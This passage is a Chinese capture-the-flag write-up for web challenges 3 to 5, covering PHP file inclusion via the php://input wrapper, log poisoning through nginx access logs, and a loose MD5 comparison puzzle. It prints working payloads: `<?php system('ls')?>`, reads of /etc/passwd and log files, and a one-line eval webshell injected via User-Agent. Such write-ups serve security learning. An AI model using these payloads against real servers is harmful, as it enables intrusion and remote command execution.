 进入题目链接，观察到页面展示了部分源码，为PHP语言，查询得知其中include函数涉及**文件包含漏洞**。

确认该题为PHP文件包含漏洞后，通过了解可使用代理抓包软件Burpsuit去抓包,并且使用**PHP伪协议**中的`php://input`来在包的最下面写上`<?php system('ls')?>`执行系统命令查看当前目录的文件，来查看有无目标文件。

打开bp代理，对该网页进行拦截抓包，在GET请求的url中拼接伪协议`php://input`,将该数据包内容后加入`<?php system('ls')?>`（前面要有一行空行），然后进行放包操作。

观察到放包后页面出现`ctf_go_go_go index.php`字段，ctf_go_go_go文件应该就是藏匿flag的文件。

接着直接在url地址栏中输入url参数,访问ctf_go_go_go文件,得到flag。



#### web4

尝试像**web3**那样使用php伪协议，回显error

看了看提示：日志注入 文件包含

使用Wappalyzer查看一下，使用的中间件是Ngnix[^nginx]

尝试读取它的日志文件：

`?url=/var/log/nginx/access.log`

`?url=/var/log/nginx/error.log`

尝试读取Linux系统下的用户信息：

`?url=/etc/passwd`

从上面的日志信息可以看出是User-Agent的内容，在User-Agent里插入一句话木马

`<?php @eval($_POST['CMD']);?> `

由于访问URL时，服务器会对其进行编码，所以通过使用burpsuite抓包来进行来注入

写入一句话木马之后，使用蚁剑尝试连接，连接url即为日志的地址。

进入后台，找到flag



#### web5

题目为php代码分析，查看代码，关键部分为：

```
<?php
    $flag = ""; // 初始化一个空字符串变量 $flag
    $v1 = $_GET['v1']; // 从 GET 请求中获取参数 'v1' 的值，并赋值给 $v1
    $v2 = $_GET['v2']; // 从 GET 请求中获取参数 'v2' 的值，并赋值给 $v2

    if(isset($v1) && isset($v2)){ // 检查 $v1 和 $v2 是否都已设置（存在且不为 NULL）
        if(!ctype_alpha($v1)){ // 如果 $v1 不只是字母，输出 "v1 error" 并终止脚本
            die("v1 error");
        }
        if(!is_numeric($v2)){ // 如果 $v2 不是数字，输出 "v2 error" 并终止脚本
            die("v2 error");
        }
        if(md5($v1) == md5($v2)){ // 如果 $v1 和 $v2 的 MD5 哈希值相等，输出 $flag 的值
            echo $flag;
        }
    }else{ // 如果 $v1 或 $v2 没有设置
        echo "where is flag?"; // 输出 "where is flag?"
    }
?>
```
